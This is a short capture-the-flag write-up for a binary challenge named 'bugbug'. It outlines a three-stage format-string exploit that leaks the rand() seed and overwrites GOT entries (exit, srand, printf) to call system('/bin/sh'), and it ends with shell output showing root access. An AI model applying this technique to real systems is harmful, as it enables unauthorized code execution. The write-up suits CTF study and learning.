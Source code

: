 # bugbug
**write-up**

- leak `seed` value
- can get `rand()` value
- printf(&buf) -> format string bug
- 3 stages attack
- overwrite `exit@got` to `main`
- overwrite `srand()` to something
- overwrite `printf()` to `system` -> system("/bin/sh");


```
sh: 2: Who: not found
sh: 2: Hello~: not found

==============================
> Let's play the lotto game! <
==============================
Input your answer@_@
sh: 1: Syntax error: end of file unexpected
$ 11 15 16 25 43 13

sh: 1: Congratulation,: not found
$ ls
bugbug        bugbug.id1    bugbug.idb  bugbug.til    floppy     serial
bugbug.id0  bugbug.id2    bugbug.nam  core    Manager  solve_bugbug.py
$ id
uid=0(root) gid=0(root) groups=0(root)
$
```
